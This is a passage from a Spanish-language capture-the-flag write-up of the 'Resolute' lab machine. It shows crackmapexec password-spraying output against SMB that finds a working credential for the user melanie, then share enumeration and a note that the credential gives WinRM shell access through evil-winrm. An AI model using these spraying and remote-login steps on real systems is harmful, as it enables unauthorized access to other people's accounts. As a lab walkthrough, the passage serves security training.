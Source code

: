 ```bash
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\simon:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\naoki:Welcome123! STATUS_LOGON_FAILURE
```

## Shell as melanie

- Tenemos la contraseña del usuario **melanie** vemos que por **smb** solo tenemos acceso de **READ** a algunos recursos compartidos.

```bash
➜  content crackmapexec smb 10.129.96.155 -u melanie -p Welcome123! --shares
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
SMB         10.129.96.155   445    RESOLUTE         [+] Enumerated shares
SMB         10.129.96.155   445    RESOLUTE         Share           Permissions     Remark
SMB         10.129.96.155   445    RESOLUTE         -----           -----------     ------
SMB         10.129.96.155   445    RESOLUTE         ADMIN$                          Remote Admin
SMB         10.129.96.155   445    RESOLUTE         C$                              Default share
SMB         10.129.96.155   445    RESOLUTE         IPC$                            Remote IPC
SMB         10.129.96.155   445    RESOLUTE         NETLOGON        READ            Logon server share
SMB         10.129.96.155   445    RESOLUTE         SYSVOL          READ            Logon server share
```

- Si probamos con el protocolo **winrm** nos devuelve **Pwn3d!** eso significa que las credenciales son válidas y podemos usar **evil-winrm** para conectarnos con el usuario.
